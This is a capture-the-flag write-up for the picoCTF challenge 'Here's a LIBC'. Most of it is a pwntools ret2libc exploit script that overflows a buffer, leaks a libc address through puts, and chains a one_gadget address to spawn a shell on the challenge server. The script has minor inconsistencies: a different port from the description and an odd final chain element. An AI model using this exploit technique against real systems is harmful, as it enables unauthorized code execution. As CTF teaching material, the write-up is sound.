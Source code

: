 # Here's a LIBC

Type/Tags : Binary Exploitation
Author : Madstacks

# Description
I am once again asking for you to pwn this binary vuln libc.so.6 Makefile nc mercury.picoctf.net 23584

# Hints
PWNTools has a lot of useful features for getting offsets.

# Solution
Very standard ret2libc challenge with vuln being the vulnerable ELF executable and libc.so.6 being the version of libc used that is needed to exploit the challenge. You can learn about ret2libc challenges in a lot of places including LiveOverflow's videos on the topic, pwn.college, and here: https://research.801labs.org/stack-exploitation/

Final exploit script:

from pwn import *
p = remote('mercury.picoctf.net', 1774)
elf = ELF("./vuln")
libc = ELF("./libc.so.6")
rop = ROP(elf)

PUTS = elf.plt['puts']
MAIN = elf.symbols['main']
LIBC_START_MAIN = elf.symbols['__libc_start_main']

POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0]
RET = (rop.find_gadget(['ret']))[0]

log.info("puts@plt: " + hex(PUTS))
log.info("__libc_start_main: " + hex(LIBC_START_MAIN))
log.info("pop rdi gadget: " + hex(POP_RDI))

#create the first rop chain to leak libc address
JUNK = ("A"*136).encode()
rop = JUNK
rop += p64(POP_RDI)
rop += p64(LIBC_START_MAIN)
rop += p64(PUTS)
rop += p64(MAIN)

p.sendlineafter("sErVeR!", rop)

p.recvline()
p.recvline()

leak = u64(p.recvline().strip().ljust(8, b'\x00'))
log.info("Leaked libc address,  __libc_start_main: %s" % hex(leak))


libc.address = leak - libc.sym["__libc_start_main"]
log.info("Address of libc %s " % hex(libc.address))

#second rop chain to jump to /bin/sh
rop2 = JUNK
rop2 += p64(RET)
rop2 += p64(POP_RDI)
rop2 += p64(libc.address + 0x10a45c)

#found by using one_gadget /bin/sh
#0x4f365
#0x4f3c2
#0x10a45c

rop2 += p64(leak)

p.sendlineafter("sErVeR!", rop2)

p.interactive()

# Flag
